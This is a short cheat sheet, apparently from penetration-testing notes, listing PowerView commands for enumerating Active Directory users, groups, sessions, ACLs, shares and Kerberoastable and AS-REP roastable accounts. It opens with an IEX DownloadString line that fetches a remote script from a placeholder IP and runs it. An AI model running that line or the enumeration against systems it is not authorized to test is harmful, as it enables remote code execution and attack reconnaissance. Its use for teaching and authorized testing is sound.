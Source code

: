 # 🔎 Powerview

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>/PowerView.ps1')
```

```
Import-Module .\PowerView.ps1
```

loading module to powershell, if it gives error then change execution policy

* Basic information about the **domain**:

```
Get-NetDomain
```

* List of **all users** in the domain:

```
Get-NetUser 
```

The above command's outputs can be filtered using "select" command. For example,

```
Get-NetUser | select cn
```

here cn is side-heading for the output of above command. we can select any number of them separated by comma.

* Specific User

```
Get-NetUser "user"
```

* Enumerate domain groups

```
Get-NetGroup
```

* Information from specific group

```
Get-NetGroup "group name"
```

* Enumerate the computer objects in the domain

```
Get-NetComputer
```

* Scans the network in an attempt to determine if our current user has administrative permissions on any computers in the domain

```
Find-LocalAdminAccess
```

* Checking **logged on users** with Get-NetSession, adding verbosity gives more info.

```
Get-NetSession -ComputerName files04 -Verbose
```

* Listing **SPN** accounts in domain

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

* Enumerates ACE(access control entities), lists SID(security identifier). ObjectSID

```
Get-ObjectAcl -Identity <user>
```

* Converting SID/ObjSID to name

```
Convert-SidToName <sid/objsid>
```

* Checking for "**GenericAll**" right for a specific group, after obtaining they can be converted using convert-sidtoname

```
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights 
```

* Find the **shares** in the domain

```
Find-DomainShare
```

* Identifying **AS-REP** roastable accounts

```
Get-DomainUser -PreauthNotRequired -verbose
```

* **Kerberoastable** accounts

```
Get-NetUser -SPN | select serviceprincipalname
```
